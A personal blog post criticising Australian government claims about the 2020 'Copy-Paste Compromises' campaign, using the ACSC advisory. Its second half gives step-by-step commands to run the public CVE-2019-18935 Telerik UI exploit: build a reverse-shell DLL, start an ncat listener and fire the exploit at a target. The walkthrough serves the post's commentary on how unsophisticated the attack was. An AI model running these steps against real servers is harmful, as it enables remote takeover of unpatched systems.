 ```yaml
---
title: Copy-Paste Compromises
thumbnail: copypaste-compromises-thumb.png
---
```


Today I woke up to an organisation-wide email telling me that "Australia is currently being hit by a cyber-attack which is targeting all levels of government, political parties and private businesses". Hey that sounds fun, so I look at the news and see this headline: "[Cyber-attack Australia: sophisticated attacks from ‘state-based actor’, PM says](https://www.theguardian.com/australia-news/2020/jun/19/australia-cyber-attack-attacks-hack-state-based-actor-says-australian-prime-minister-scott-morrison)."

Ok so the government said it. Now as weird as it may seem, this is the first thing I thought when I read that: "Oh so it's probably bullshit then". Our government (but mostly a certain party) has a bad track record of calling things cyber attacks. Back in 2016 they blamed a DDoS attack on taking down the ABS Census website[^1], when in reality people where just, you know... **using it**.

Apparently we invest absolutely nothing in our technology infrastructure, because these absolute mad lads went and blamed another failure on a DDoS attack earlier this year. This time it was people trying to register for Centrelink[^2], which is a little worse then people unable to fill out census forms as instead it affects people who have lost their jobs due to a certain global pandemic and need support.

And while not directly related to cyber security, let me remind you about the NBN. What a bloody farce. Any time the Coalition starts talking about techonology (or anything, really), my brain immediately starts shutting down in fear of getting an aneurysm.

But back to the topic on-hand, unfortunately, or fortunately for me because I seem to enjoy reading postmortems, this time it's actually a cyber attack. According to the previous article: "we know it is a sophisticated state-based cyber actor because of the scale and nature of the targeting and the tradecraft used."

I won't comment about the "state-based cyber actor", because even though they won't say who it is, it's pretty obvious. So we will take that part out and instead look at how it was "sophisticated [...] because of the scale and nature of the targeting and the tradecraft used." Sophisticated huh? That's interesting.

The Australian Cyber Security Centre’s (ACSC) published an advisory that details the tactics, techniques and procedures (TTPs) identified during the investigation of this attack. You can read the summary [here](https://www.cyber.gov.au/threats/advisory-2020-008-copy-paste-compromises-tactics-techniques-and-procedures-used-target-multiple-australian-networks). But I'm going to look more at the [PDF](https://www.cyber.gov.au/sites/default/files/2020-06/ACSC-Advisory-2020-008-Copy-Paste-Compromises.pdf) that goes into more detail.

Immediately we read that "the title ‘Copy-Paste Compromises’ is derived from the actor’s heavy use of proof of concept exploit code, web shells and other tools copied almost identically from open source."

Oh no, I'm already spotting a few red flags with this. Let's read that again with a focus on the important parts.

> Heavy use of proof of concept exploit code [...] copied almost identically from open source.

Now look, I didn't expect it to be Stuxnet 2: Electric Boogaloo and have a million zero days, but these are not the words we should be reading when we are looking for a "sophisticated" cyber attack. And it's a little concering that the Australian government (and some businesses, but I expect them to have crap security anyway) are not able to defend against well known, open source vulnerabilities enacted by what seems to be a bunch of script kiddies.

But to be fair, it looks like most of the initial access actually comes from spearphishing people, which is a hard thing to defend against. It's more about education and telling people to stop being stupid than it is about securing your infrastructure. However, I consider social engineering to be cheating because I have social anxiety and am unable to do it, so I'm going to ignore it.

Instead let's look at "exploitation of public facing infrastructure—primarily through the use of remote code execution vulnerability in unpatched versions of Telerik UI." They cite CVE-2019-18935: "Telerik UI - Remote Code Execution via Insecure Deserialization" as one of the most common exploits used.

Telerik UI for ASP.NET AJAX is a widely used suite of UI components for web applications. It seems `RadAsyncUpload`, a file handler in Telerik UI for ASP.NET AJAX that enables uploading files asynchronously, insecurely deserializes JSON objects in a manner that results in arbitrary remote code execution on the software's underlying host.[^3]

The basic idea of the exploit is that you upload a "mixed mode assembly" DLL using Telerkit UI and specifying it as a "gaget", which is "a class within the executing scope of the application that, as a side effect of being instantiated and modified via setters or field assignment, has special properties that make it useful during deserialization."

Yeah I don't really know what any of that is either. Anyway, then some funky stuff happens when it attemps to deserialise it and bing bong, you got yourself remote code execution. This is a pretty common way of RCE and probably should have been found eariler, so RadAsyncUpload seems more like **Bad**AsyncUpload to me! Hah!

...

Ok moving on.

In case you are not aware of how easy it is to use exploits like these and because I want to pad this post out, let's take a look at the steps you need to do the exploit:

1. Download the repo:

```
git clone https://github.com/noperator/CVE-2019-18935.git && cd CVE-2019-18935
```

2. Install the Python environment.

```
python3 -m venv env
source env/bin/activate
pip3 install -r requirements.txt
```

3. Build the reverse shell that they provide for you (need Visual Studio installed).

```
sed -i .bu 's/<HOST>/<HOST>/; s/<PORT>/<PORT>/' rev_shell.c
build_dll.bat rev_shell.c
```

4.  Setup Netcat for callback.

```
sudo ncat -lvp <PORT>
```

4. Run the thing.

```
python3 CVE-2019-18935.py -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau -v <VERSION> -f 'C:\Windows\Temp' -p sleep_2019121205271355_x86.dll
```

You can practically copy and paste all of this as there were only three things you needed to change:

- The `<HOST>` param: Obviously you need to specify what host your attacking.
- The `<PORT>` param: The port you'll be listening on for the reverse shell.
- The `<VERSION>` param: This is the version of Telerik UI that is being used as newer version have been patched. You can normally find what version it is by checking the HTML, otherwise you can brute-force it.

Most of the time, you'd make your own reverse shell and tailor it for your victim (if you're any good, I never do it because I'm lazy and stupid). But the report says that "most common payloads used by the actor were copies of public proof of concept exploit code for a sleep test and reverse shell binary" which are exactly the ones we just looked at (step 3).

There's way more in the other sections like Privilege Escalation, Credential Access, etc. But I just wanted a quick look at how "sophisticated" the attack was. And it turns out to be pretty average if I'm to be honest.

This is why I don't do infosec content anymore, it's pretty boring just running the exploits and instead all the fun comes from making/finding them. But I can't do that stuff cus I'm dumb.

Moral of the story: patch your systems and stay in school.

---

[^1]: https://theconversation.com/did-the-census-really-suffer-a-denial-of-service-attack-63755

[^2]: https://www.theguardian.com/australia-news/2020/mar/23/incompetence-attack-mygov-website-did-not-crash-because-of-ddos-cyber-assault-as-stuart-robert-claimed

[^3]: https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui
